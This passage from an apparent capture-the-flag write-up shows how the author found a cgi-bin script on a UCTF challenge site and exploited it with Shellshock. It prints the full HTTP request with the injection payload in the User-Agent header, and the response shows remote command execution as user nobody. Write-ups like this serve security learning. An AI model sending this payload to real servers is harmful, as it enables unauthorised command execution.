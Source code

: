 ```html
frameEl.addEventListener('load', () => {
frameEl.contentDocument.head.appendChild(styleLink);

setTimeout(() => {
frameEl.contentWindow.location.reload();
}, 5000);
});
}
</script>
</body>

</html>
```

we can see that https://stt.uctf.ir/cgi-bin/uptime.sh is being included in the main page with a iframe.

now the first thing that came to mi mind is try shellshock as it is probably the most popular exploit for folder cgi-bin

here's an in depth explanation of the exploit
https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/

luckily it worked first attempt


**request
```
GET /cgi-bin/uptime.sh HTTP/2
Host: stt.uctf.ir
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: () { : ; }; echo; echo; /usr/bin/id
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Content-Length: 0
```


**response

```
HTTP/2 200 OK
Date: Mon, 04 Sep 2023 20:54:12 GMT
X-Xss-Protection: 1; mode=block
Server: ArvanCloud
X-Sid: 4103
Server-Timing: total;dur=174
X-Cache: BYPASS
X-Request-Id: 6bdb55363dfc11ba01860b3a1e357bc3


uid=65534(nobody) gid=65534(nobody)
```
